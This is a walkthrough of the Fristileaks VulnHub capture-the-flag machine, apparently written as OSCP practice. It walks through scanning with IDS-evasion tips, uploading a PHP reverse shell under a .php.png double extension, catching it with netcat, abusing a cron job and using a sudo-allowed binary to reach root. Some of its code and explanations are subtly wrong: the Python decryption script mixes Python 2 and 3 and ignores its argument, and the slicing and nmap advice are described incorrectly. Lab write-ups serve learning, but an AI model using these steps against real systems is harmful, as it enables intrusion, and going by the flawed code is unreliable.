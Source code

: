 ```yaml
---
title: Fristileaks Walkthrough
author: alex
date: Fri 28 Jul 19:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-08-fristileaks-walkthrough/
---
```


Today I'm hacking into **Fristileaks**. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests.

> SETUP
> 
> The setup is a bit tricky. I am using **VirtualBox** and in order to get an IP for the VM, I had to manually change the MAC address of the machine to 080027A5A676.
{: .prompt-tip }

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Gobuster
- Python/CyberChef

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.22.0/16   |   Screen View: Unique Hosts                                               
                                                                                                           
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:2d:87:9b      1      60  PCS Systemtechnik GmbH                                          
192.168.1.41    08:00:27:a5:a6:76      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.41
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-oscp-certification-guide/#port-scanning)**
{: .prompt-warning }

And the output...

```
PORT   STATE SERVICE VERSION

80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
```

Only **port 80** is open so let's open the browser and search the IP to see what we have.

![Fristileaks](/keep-calm.png)

Let's enumerate the directories of the website with `gobuster`: `sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.1.41 -t 10`. And we can see 3 directories not listed but present in *robots.txt*: beer, cola and sis. I didn't find anything interesting here. After drinking another coffee I started trying some words and one of them threw an interesting result: /fristi/.

Here we have a login page! If we have a look to the source code of the page we can find some interesting things:

![User](/eezeepz.webp)
![Password](/base64img.webp)

I guess that **eezeepz** is a username and the second string is base64. As soon as we try to decode it with **CyberChef** we can see it's a .png image. So we need to decode it as an image. And that image has a text in it: **keKkeKKeKKeKkEkkEk**.

Cool! That looks like a password. And sure it is. We are now presented with a page to upload a file. If we try to upload a reverse shell written in PHP with .php extension it gets rejected. Let's add .png to the extension: **reverse_shell.php.png**.

## Exploitation

Before we visit the url of our reverse shell, we must start a **Netcat** listener:

```bash
sudo nc -nlvp 1234
```

Now we can visit the url (IP + /uploads/reverse_shell.php.png) to start the shell and get inside **fristi**.

First, let's spawn an interactive shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Good, let's start sniffing around the folders.

There's an interesting file: **/home/eezpeez/notes.txt**. If we `cat` it, we can see some instructions to run some commands as admins so we can change permissions for the *admin* directory:

```bash
echo '/home/admin/chmod -R 777 /home/admin' > /tmp/runthis
```

Now, after a minute, once the cronjob is executed we can `cd` into the *admin* directory. And here we can find some interesting files: 

- cryptpass.py
- whoisyourgodnow.txt
- cryptedpass.txt

We can see two passwords encrypted in the files **whoisyourgodnow.txt** and **cryptedpass.txt**. They have been encrypted with the file **cryptpass.py** so we have to reverse the encryption algorithm in order to revert it and reveal the password.

### Way #1 - CyberChef

If you are not good at Python or don't know how to write programs with it, you can use CyberChef for this task but you'll still need to understand some Python to know how the password is encrypted.

```python
     def encodeString(str):
1 >    base64string= base64.b64encode(str)
2 >    return codecs.encode(base64string[::1], 'rot13')
```

1. This line encodes the string in base64 as a first step so it will be our last step
2. This line rotates the characters 13 positions and reverse the string

So, inside CyberChef we need to load **Reverse**, **ROT13** and **From Base64**, paste the string and voilà! we have the password.

![CyberChef](/cyberchef.png)

### Way #2 - Python

If you are good with Python, you can code the reverse algorithm. Here's the program and how to use it:

```python
import base64,codecs,sys

string = "=RFn0AKnlMHMPIzpyuTI0ITG"

string1 = string[::-1]
string2 = string1.encode("rot13")
string3 = base64.b64decode(string2)

print string3
```

To use it: 

```bash
sudo python3 decryptpass.py =RFn0AKnlMHMPIzpyuTI0ITG
```

Now we can change user:

```bash
su fristigod
Password: LetThereBeFristi!
```

Let's see what powers do we have: `sudo -l`

```
User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

Cool! We can execute the doCom SUID with sudo privileges:

```bash
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
```

Now we can check we are root:

```
$ whoami
root
$ cd root
$ cat fristileaks_secrets.txt
```

And we get the flag as proof of our victory:

```
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]
I wonder if you beat it in the maximum 4 hours it's supposed to take!
Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)

Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```


